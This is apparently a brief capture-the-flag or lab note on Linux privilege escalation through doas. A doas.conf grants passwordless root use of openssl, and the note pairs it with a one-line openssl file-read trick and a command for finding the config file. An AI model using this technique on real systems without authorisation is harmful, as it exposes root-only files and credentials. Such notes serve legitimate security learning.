 - Doas is a software that has the same function as the more known Sudo, but it lacks all the extra features (by design) Sudo has, like kerberos and ldap.
- It is also developed and maintained by the people behind OpenBSD.

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/doas/img/Untitled.png)

`cat /etc/doas.conf`

```
plot_admin@plotted:/tmp$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
```

giftbino  openssl

```
LFILE=file_to_read
openssl enc -in "$LFILE"
```

- find config file

```bash
find / -name "doas.conf" 2> /dev/null
```

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/doas/img/Untitled(1).png)

![Untitled](https://github.com/0xMuhammadEhab/Linux-PrivEsc/blob/main/easy/doas/img/Untitled(2).png)
